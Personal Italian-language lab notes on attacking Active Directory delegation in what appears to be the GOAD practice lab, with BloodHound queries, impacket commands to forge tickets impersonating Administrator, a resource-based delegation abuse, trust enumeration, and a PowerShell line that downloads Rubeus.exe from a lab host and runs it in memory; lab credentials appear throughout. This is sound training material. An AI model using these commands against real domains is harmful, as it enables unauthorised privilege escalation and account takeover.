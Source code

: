 ### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
![[Pasted image 20230911105711.png]]
[GOAD - part 10 - Delegations | Mayfly (mayfly277.github.io)](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
Il resto dell'attacco non posso farlo perchè non mi funziona rubeus
### **CONSTRAINED DELEGATION**
Puoi trovare tutte le constrained delegation con impacket
```bash
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![[Pasted image 20230911111407.png]]
*Con protocol transition*

Per exploitarlo isogna prima chiedere un TGT per l'utente e poi esguire S4U2Self seguito d S4U2Proxy per impersonare un admin
```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230911111655.png]]
Puoi loggare dopo con wmixec

### **Resource Based Constrained Delegation**
Può essere abusato modificando msDS-AllowedToActOnBehalfOfOtherIdentity.
Per esempio può essere effettuato quando hai genericAll o genericWrite ACl su un computer
![[Pasted image 20230911114240.png]]
Creiamo un computer X
```bash
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```
aggiungo la delegation sul target da X (rbcd$)
```bash
impacket-rbcd -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```
Ora che abbiamo la delegazione possiamo fare S4U
```bash
impacket-getST -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'
```
![[Pasted image 20230911115059.png]]
ed accedere con wmiexec
### **ACL**
### **TRUST ENUM**
Incominciamo enumerando i trust:
```bash
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.10 trusts
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.12 trusts
```
![[Pasted image 20230911121034.png]]
- The sevenkingdoms to essos trust link è `FOREST_TRANSITIVE | TREAT_AS_EXTERNAL` per via della Sid history abilitata
- The essos to sevenkingdoms trust link è solo `FOREST_TRANSITIVE`

### **titolo**
